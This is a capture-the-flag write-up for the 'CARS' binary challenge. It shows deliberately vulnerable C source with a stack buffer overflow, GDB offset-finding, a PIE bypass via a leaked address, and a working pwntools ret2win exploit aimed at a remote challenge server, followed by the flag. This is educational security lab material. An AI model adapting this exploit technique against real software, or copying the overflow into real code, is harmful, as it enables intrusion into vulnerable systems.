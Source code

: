 # CARS

##### DESC

> **"**I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...**"**

###### OVERVIEW

PIE + NX BYPASS (ROP) + RET2WIN

##### EXPLOIT REVIEW

I had access to the CARS binary. When runing checksec on the binary, I had obtained the following information...

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```

Seeing that NX is enabled, I knew that I could not just directly inject shellcode into this program and PIE being enabled suggested that the program's base address is randomised. To bypass these restrictions, the source code had to be looked at.

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cars -g -fno-stack-protector cars.c

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Paying close attention to the main() function, I had observed that a variable named **report_number** that's being generated from a constant seed **0xb1adee** and it's address (&) being printed out in the long format (%l). Reversing this binary in ghidra gave me the offset of **report number** from the start of the binary file, which is 

```
0x104090 - 0x100000 = 0x4090
```

To calculate program's base address, I had captured the address of **report_number** printed out in the long format, converted it to hex and subtracted 0x4090 from it. I then set the binary ELF's address to this calculated base address. PIE has been bypassed

Looking at the source code, I had noticed that there is a function conveniently planted there named 'admin()' that if called, prints out the flag. But this function is not called by any other function in the program. 

Looking at file_report() immediately called after the printf() statements, I saw that 2 fgets() functions are called and the second of which allows the user to write in 256 bytes of data into the **input** variable that can only hold 28 bytes. This buffer overflow can be exploited to overwrite RIP with admin()'s return address.

Firing up GDB, I used the command 

``` sh

pattern create 400

```
and inputted the generated result into the second fgets() function as discussed earlier. This caused a seg fault that I had used to look up registers. One particular register of interest is RBP and in a x64 stack layout, RBP is right next to the return address of the stack frame which is what I had wanted to control. In the GDB result after the seg fault, I had seen that RBP is overwritten with the generated pattern.

``` sh
$rax   : 0x42              
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe5bb  →  "/home/xor8ex/blahaj/cars"
$rcx   : 0x00007ffff7ebfb00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe1d8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f9c803  →  0xf9da30000000000a ("\n"?)
$rdi   : 0x00007ffff7f9da30  →  0x0000000000000000
$rip   : 0x000055555555528d  →  <file_report+113> ret 
$r8    : 0xfe              
$r9    : 0x0               
$r10   : 0x00007ffff7dd10b8  →  0x00100022000048a8
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffe308  →  0x00007fffffffe5d4  →  "XDG_CURRENT_DESKTOP=GNOME"
$r14   : 0x0000555555557dd8  →  0x0000555555555180  →   endbr64 
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000555555554000  →   j
```

I had then used the simple command 

``` sh
pattern search $rbp
```

to find the offset of RBP. I had then +8 to the offset to find out the offset to the return address since RBP is 8 bytes long. In this case, I had found that the offset to the return address is 40. I then simply constructed a buffer overflow consisting of a payload of 40 bytes + admin()'s func address.

EXPLOIT:

- Capture the address of **report_number** displayed in long format and convert it to hex value
- Subtract 0x4090 from the calculated hex value to obtain program's base address and set it using pwntools 'elf.address=[BASE ADDRESS]'
- Constrcut a payload consisting of 40 bytes + 8 bytes of our desired return address ([BASE ADDRESS] +elf.sym['admin']) | ROP
- Send the payload to the second fgets() in file_report()

EXPLOIT CODE:

``` python
import time
from pwn import *

context(os='linux',arch='amd64')
p=remote("139.59.224.179","30002")
#p=process("./cars")
elf=ELF('./cars')

context.log_level='DEBUG'
output=p.recvuntil("Please")
leaked_address=hex(int(output[-21:-7]))

log.info(leaked_address)

base_address=(int(leaked_address,16)-int("0x4090",16))
log.info(hex((base_address)))

elf.address=base_address

payload=b"A"*40+p64(elf.sym['admin']+1) # When setting p to remote, you have to +1 to elf.sym['admin'] due to MOVAPS issue or else the exploit just fails lmao
#payload=b"A"*40+p64(elf.sym['admin'])
p.sendlineafter("ID: ","")
p.sendlineafter("incident: ",payload)
time.sleep(1)
p.interactive()
```

Running this code, I got the flag 

```
blahaj{r0pp1n6_w17h_p13}
```